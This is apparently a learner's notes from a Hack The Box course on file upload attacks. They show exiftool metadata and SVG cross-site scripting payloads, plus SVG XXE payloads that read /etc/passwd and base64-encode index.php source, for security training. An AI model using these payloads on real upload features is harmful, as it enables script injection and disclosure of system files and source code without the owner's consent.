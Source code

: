 #### 

#### File Upload Attacks

### Limited File Uploads

# XSS

```bash
ndefstathiou@htb[/htb]$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
ndefstathiou@htb[/htb]$ exiftool HTB.jpg
...SNIP...
Comment                         :  "><img src=1 onerror=alert(window.origin)>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

## XXE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

## DoS

# 

# 

### Questions

